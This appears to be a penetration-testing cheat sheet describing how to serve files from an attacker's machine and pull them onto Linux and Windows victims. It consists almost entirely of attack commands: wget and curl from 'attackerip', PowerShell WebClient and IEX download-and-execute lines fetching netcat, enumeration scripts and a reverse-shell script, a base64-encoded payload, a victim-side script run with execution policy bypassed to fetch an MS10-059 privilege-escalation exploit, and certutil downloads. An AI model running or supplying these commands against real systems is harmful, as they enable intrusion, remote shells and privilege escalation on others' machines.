 # Firstly, we create a web server on our own machine;
```
python3 -m http.Server <port>  
```
## LINUX

#Then we get our file over the webserver;
```
1. wget http://attackerip/file

2. curl http://attackerip/file > file

```  

------------------------------------------------------------------------------------------------------------------------------
  

## WINDOWS

  

### OPTION 1:

 #Then we get our file over the webserver;
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://attackerip/WindowsEnum/WindowsEnum.ps1','C:\Users\Public\Downloads\WindowsEnum.ps1')
```
```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile("http://<ip>/nc64.exe", "C:\Users\Cortin\n.exe")
```
  
  
```powershell
powershell.exe IEX (New-Object Net.WebClient).downloadString('http://attackerip/WindowsEnum/WindowsEnum.ps1')
```
  
  
```powershell
1. Powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString('http://<ip>:8000/Sherlock.ps1')"
```
  
  
  
```powershell
1. Ntmon PRTG software

echo "IEX(New-Object net.webClient).downloadString('http://<ip>/rev.ps1')" | iconv -t UTF-16LE | base64 -w0 > b64payload

 
powershell -enc <b64string> to execute
```

### OPTION 2:

  

#We run the following commands on the victim system, respectively;

  
 ```powershell
echo $webclient = New-Object System.Net.WebClient >>wget.ps1

echo $url = "http://attackerip:port/Chimichurri.exe" >>wget.ps1

echo $file = "ms10-059-exploit.exe" >>wget.ps1

echo $webclient.DownloadFile($url,$file) >>wget.ps1

powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
``` 


### OPTION 3: Upto winodws 8

  

#Then we get our file over the webserver;
```powershell
certutil -urlcache -split -f "http://attackerip/file.exe"

certutil -urlcache -f "http://<ip>:8000/MS10-059.exe" MS10-059.exe`
```

